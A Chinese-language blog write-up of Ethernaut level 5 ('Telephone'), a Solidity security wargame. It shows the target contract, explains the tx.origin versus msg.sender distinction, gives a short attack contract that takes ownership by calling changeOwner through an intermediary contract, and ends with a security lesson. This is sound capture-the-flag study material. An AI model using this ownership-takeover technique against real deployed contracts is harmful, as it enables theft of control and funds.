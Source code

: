 ```yaml
---
title: Ethernaut 闯关笔记 第5关 Telephone
date: 2023-12-07 12:20:52
tags:
---
```


原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

目标：成为合约 owner 。

# 攻击思路

本关考察 `tx.origin` 和 `msg.sender` 的区别。

* `tx.origin` ：本次交易的最早发起人，只可能是一个钱包
* `msg.sender` ：本次合约调用的直接行为主体，可能是钱包也可能是另一个合约

因此，只需要另外部署一个合约，让这个合约调用 `changeOwner()` 即可符合条件。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract TelephoneHack{
    address constant TARGET = 0x6e4F3a2689069C568E51db94E76D0A84f00aa20f;
    address constant MY = 0x15AfABaA426334636008Bc15805760716E8b5c5E;

    function run() public {
        Telephone telephone = Telephone(TARGET);
        telephone.changeOwner(MY);
    }
}
```

# 安全启示

务必区分清楚 `tx.origin` 和 `msg.sender` 。

如果使用不当，可能导致 `owner` 指向一个合约地址。如果指向的合约没有实现该有的功能，原始合约的控制权就会丢失。
